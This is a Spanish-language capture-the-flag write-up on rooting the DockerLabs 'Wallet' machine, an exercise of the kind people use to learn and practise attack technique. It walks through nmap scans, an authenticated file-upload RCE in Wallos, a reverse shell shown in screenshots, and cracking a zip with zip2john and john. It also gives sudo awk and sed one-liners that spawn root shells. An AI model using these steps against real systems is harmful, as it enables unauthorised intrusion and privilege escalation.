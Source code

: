 ```yaml
---
layout: single
title: Wallet - DockerLabs
excerpt: "Wallet es una máquina de dificultad media de la plataforma DockerLabs. En ella abusaremos de una versión desactualizada de wallos para ganar acceso a la máquina através de un Authenticated RCE. Nos moveremos lateralmente de usuarios extrayendo el hash de un archivo .zip para crackeralo con John. Finalmente abusaremos de un binario que puede ser ejecutado como root sin proporcionar contraseña para escalar al usuario root."
date: 2024-09-12
classes: wide
header:
  teaser: /assets/images/wallet/wallet.jpeg
  teaser_home_page: true
  icon: /assets/images/dl_logo.png
categories:
  - dockerlabs
  - linux
  - medium
tags:  
  - zip2john
  - RCE
  - Lateral Movement
---
```



# Enumeración

Iniciamos el proceso de enumeración ejecutando el siguiente comando con `nmap`:

```python
❯ nmap -p- --open --min-rate 5000 -n -Pn 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 13:50 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.63 seconds

```

Como vemos solo esta el puerto 80 abierto. Vamos a lanzar el siguiente scaneo de `nmap` sobre el puerto 80, esta vez con scripts básicos de `enumeración de servicios` y `versiones`:

```python
❯ nmap -sCV -p80 -Pn 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 13:54 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00023s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Wallet

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds

```

Echándole un ojo a la web no vemos nada interesante, pero mirando el código fuente vemos que hace referencia a un `subdominio`:

![Image 2](/assets/images/wallet/html_domain.png)

Lo añadimos a nuestro archivo `/etc/hosts` así como el dominio `wallet.dl`

Entrando al subdminio `panel.wallet.dl` vemos que nos carga un formulario para registrarnos, nos registramos y accedemos a una aplicación web llamada `wallos`. Wallos es una aplicación web open source destinada a gestionar tus finanzas de una manera más fácil y efectiva. En la sección `About and Credits` podemos ver la versión utilizada:

![Image 3](/assets/images/wallet/wallos.png)

# Intrusión

Si buscamos por vulnerabilidades de wallos, nos encontramos con un `Authenticated RCE` en versiones anteriores a la 1.11.2 ([Link al PoC](https://www.exploit-db.com/exploits/51924))

A la hora de crear una nueva suscripción, el usuario puedes subir una imagen/logo, pero el código no está sanitizado correctamente y un usuario mal intencionado puede fácilmente bypassear la comprobación y subir una "imagen" con código php.

![Image 4](/assets/images/wallet/burpsuite.png)

Nuestra shell se guarda en `images/uploads/logos/`, nos dirigimos allí y nos enviamos una reverse shell a nuestra máquina

![Image 5](/assets/images/wallet/webshell.png)

![Image 6](/assets/images/wallet/netcat.png)

# Escalada

Primero vamos a cambiarnos a una shell completamente interactiva de la siguiente manera:

```bash
script /dev/null -c bash
ctrl + z 
stty raw -echo;fg 
reset xterm
export TERM=xterm 
export SHELL=/bin/bash
stty rows 41 columns 184
```

Mirando el archivo `/etc/passwd` vemos que hay 2 usuarios, `Pylon` y `Mario`

![Image 7](/assets/images/wallet/users.png)

Con `sudo -l` vemos que podemos ejecutar el comando `awk` como pylon sin proporcionar contraseña 

![Image 8](/assets/images/wallet/sudo.png) 

```bash 
sudo -u pylon /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

Una vez estamos como Pylon, vemos que hay un comprimido `.zip`, al descomprimirlo nos pide una contraseña 

![Image 9](/assets/images/wallet/zip.png) 

Para extraer el hash y romperlo voy a usar `zip2john`, pero antes tengo que pasarme el archivo a mi máquina. La máquina víctima no tiene python, asi que usare `php` para exponer el archivo y descargarlo a mi máquina. 

```php
// Máquina víctima 
php -S 0.0.0.0:81
```

```php
// Mi máquina
wget http://172.17.0.2:81/secretitotraviesito.zip
```
Para extraer el hash y romperlo con john ejecuté los siguientes comandos:

```bash 
❯ zip2john secretitotraviesito.zip > hash
```

```python
❯ john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chocolate1       (secretitotraviesito.zip/notitachingona.txt)     
1g 0:00:00:00 DONE (2024-09-10 20:27) 50.00g/s 819200p/s 819200c/s 819200C/s 123456..cocoliso
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Descomprimimos el zip y el contenido es la contraseña para el usuario `pinguino`

![Image 10](/assets/images/wallet/pinguino.png)

El usuario `pinguino` puede ejcutar como cualquier usuario el comando sed sin proporcionar contraseña 

![Image 11](/assets/images/wallet/sudo_root.png)

```python 
sudo /usr/bin/sed -n '1e exec /bin/bash 1>&0' /etc/hosts
```

![Image 12](/assets/images/wallet/rooted.png)

